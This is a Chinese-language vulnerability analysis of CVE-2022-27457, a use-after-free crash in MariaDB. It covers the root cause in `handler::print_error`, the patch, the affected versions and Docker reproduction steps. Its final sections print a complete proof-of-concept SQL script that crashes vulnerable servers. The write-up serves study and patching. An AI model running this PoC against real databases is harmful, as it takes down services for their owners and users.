




# CVE-2022-27457 CWE-416 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-416（Use After Free）：**指在软件中使用已经释放的内存区域的漏洞。当程序动态分配的内存被释放后，若未将指向该内存的指针设置为无效状态（如置为 NULL），后续代码仍可能错误地访问该指针，此时该内存可能已被重新分配给其他用途，导致不可预测的行为，如数据损坏、程序崩溃或代码执行等。这种漏洞通常源于内存管理不当，是严重的安全问题，易被攻击者利用来破坏程序的稳定性和安全性。

## 漏洞原理

 MariaDB 在一次唯一键冲突发生后，内部记录冲突键的编号（`errkey`），用于构造错误信息。但 错误处理完成后未正确清理 `errkey`，导致下一个语句如果再次报错，可能使用了上一次残留的键编号，造成错误的错误信息或行为异常。最终在 /strings/ctype-latin1.c 的组件 my_mb_wc_latin1 中触发释放后使用。

## 漏洞定位

分析 MariaDB 10.6.3 源码：

在 sql\handler.cc 文件，第 4272 行的`handler::print_error`方法

其中第 4324 行的`case`语句是 MariaDB 在处理“唯一键冲突”时的内部错误处理逻辑，用于处理因为插入或更新导致的主键/唯一键冲突错误（Duplicate Key）。

MariaDB 将 `table->file->errkey` 设置为冲突键编号（如 0、1、2...）。但是打印错误后，它**没有清除这个值**。所以下一次执行语句时，如果又触发错误但没有新的 `errkey` 设置，**会复用上一次的 `errkey` 值**。

由于`TABLE` 对象或其中的 `key_info[]` 数组已经释放，但 `errkey` 这个编号还残留，在下一次错误处理中仍然访问该编号，即访问已经被释放的内存。

```cpp
// handler.cc 文件，第 4272 行
void handler::print_error(int error, myf errflag)
{
    // ...
	case HA_ERR_FOUND_DUPP_KEY:  // 遇到重复键错误
    {
      if (table)  // 检查是否绑定了一个数据表
      {
        uint key_nr = get_dup_key(error);  // 获取哪个唯一键冲突了（返回键的编号）

        if ((int)key_nr >= 0 && key_nr < table->s->keys)  // 键号合法
        {
          print_keydup_error(table, &table->key_info[key_nr], errflag);  // 打印详细错误信息
          DBUG_VOID_RETURN;  // 退出当前函数，不再执行下面的通用处理
        }
      }

      // 如果无法定位具体键号，就使用默认的错误编号消息
      textno = ER_DUP_KEY;
      break;
    }
    // ...
}
```

## 漏洞修复


补丁在输出错误消息后立即清除 `errkey`，将其设置为 `-1`（无效标志），避免下一条语句错误复用先前的索引编号。

```cpp
case HA_ERR_FOUND_DUPP_KEY:
  {
    if (table)
    {
      uint key_nr=get_dup_key(error);
      if ((int) key_nr >= 0 && key_nr < table->s->keys)
      {
        print_keydup_error(table, &table->key_info[key_nr], errflag);
        table->file->errkey= -1;   // Increase the portion
        DBUG_VOID_RETURN;
      }
    }
    textno=ER_DUP_KEY;
    break;
  }
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**影响组件：** `my_mb_wc_latin1`

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27457-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27457-PoC.sql，在 Debug 模式下的 MariaDB 中可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27457-PoC.sql
```



在 Release 模式下的 MariaDB 可以看到执行 PoC 代码中的两次 UPDATE 语句都是报错 v2，而不会退出



4、查看容 MariaDB 崩溃日志，可以看到 UAF 发生导致崩溃，且问题在`/strings/ctype-latin1.c`的组件`my_mb_wc_latin1`中，与漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建表 t1，含两个 UNIQUE 键（v2, v1）
CREATE TABLE t1 (
    v3 INT PRIMARY KEY,
    v2 TEXT(100) UNIQUE NOT NULL,
    v1 INT UNIQUE
) ;

-- 插入两行数据
INSERT INTO t1 VALUES ( -32768 , -128 , 58 ),( -1 , 44 , -128 );

-- 创建表 t2
CREATE TABLE t2 (
    v6 INT PRIMARY KEY,
    v5 TEXT,
    a INT NOT NULL
) ;

-- 插入数据
INSERT INTO t2 VALUES ( 50 , 61 , -1 ),( -2147483648 , -128 , 0 );


UPDATE t1 SET v2 = ( NOT ( ( v1 = 8 OR 'x' = -1 ) IS NULL ) ) , v3 = -128;

UPDATE t1 NATURAL JOIN t2 SET v1 = v2 , v5 = 0;
```

第一个 UPDATE，将 'x' 转换为数值时为 0，最终经表达式计算得到 1，v2 是 `TEXT` 类型，MariaDB 会自动将数字 **1 转换为字符串 `'1'`**。经过`UPDATE`**每一行都把 `v2` 设置为 `'1'`**，所以在更新时出现了唯一约束冲突（`v2` 是 UNIQUE），导致触发错误。

第二个 UPDATE， `t1` 和 `t2` 没有列名相同的字段，因此 `NATURAL JOIN` 的连接条件其实是 **空的**。也就是说它执行了 **笛卡尔积更新**（`t1 × t2`），每一对组合都参与了更新。而之前 `v2` 赋值为 `'1'`（字符串），会被转换为 `1`。**所有行都变成 `v1 = 1`，这违反了唯一约束**。

第一个 UPDATE 成功设置了 `errkey`（触发唯一键冲突），但是MariaDB 没有在执行完成后重置 `errkey`，导致第二个 UPDATE 如果也触发冲突，错误报告引用了已经失效的 `errkey`。

## 参考链接


[NVD - CVE-2022-27457](https://nvd.nist.gov/vuln/detail/CVE-2022-27457)

[[MDEV-28098\] incorrect key in "dup value" error after long unique - Jira](https://jira.mariadb.org/browse/MDEV-28098)

[MDEV-28098 incorrect key in "dup value" error after long unique · MariaDB/server@af81040](https://github.com/MariaDB/server/commit/af810407f78b7f792a9bb8c47c8c532eb3b3a758)
